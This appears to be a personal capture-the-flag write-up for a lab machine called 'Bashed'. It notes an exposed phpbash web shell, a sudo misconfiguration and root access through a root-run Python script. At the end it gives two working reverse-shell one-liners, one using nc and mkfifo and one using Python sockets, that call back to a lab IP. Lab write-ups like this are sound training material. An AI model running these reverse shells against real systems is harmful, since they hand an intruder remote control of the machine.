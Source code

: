 # <span style="color:[COLOR]">Machine #30 Bashed</span>  



## <span style="color:[COLOR]">Checklist 🤓   



<br/><br/>


## <span style="color:[COLOR]">What Do We Have? 🤔🤔 
* Some script called `phpbash` that seems to be running on the server.  
* I tried to visit `http://[IP]/uploads` and it worked. It exists.
* I also tried to send a post request to the uploads with the parameter `cmd`, the command `whoami` didn't work, gave me an error `412 Precondition Failed` but when I tried `pwd` or `cat /etc/passwd` it worked but it didn't return an output. Anyway, it doesn't have to return an output.  
* I also have the source code of the phpbash thing which gives me an upper hand.  
* There's a directory called `/php` it seems according to the contact form I found this `/php/sendMail.php`. 
* I was able to open `/php` and it did not include anything but `sendMail.php` but if I was able to open it doesn't that mean that I have Directory Traversal vulnerability. 
* I think I do have directory traversal.
* Found a `/dev` directory through gobuster and since I have directory traversal I was able to view the directory and find that `phpbash.php` is stored there.
* I had the ability to `sudo` any command of the user `scriptmanager` so it was really simple to just `sudo /bin/bash` and this way I got this user
```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```  
* To get the root I was able to edit a script that the root ran with the command `python` which left me no choice but to inject a rev shell inside this script and wait for the root to execute it and then BOOM I'm root.  
* One of the easiest machines I solved so far.

<br/><br/>


## <span style="color:[COLOR]">Random Notes👀

<br/><br/>  


## <span style="color:[COLOR]">How Did I Own This Shit 😎🥳  

<br/><br/>



## <span style="color:[COLOR]">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:[COLOR]">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>

<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->  
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 1234 >/tmp/f  





import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.72",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
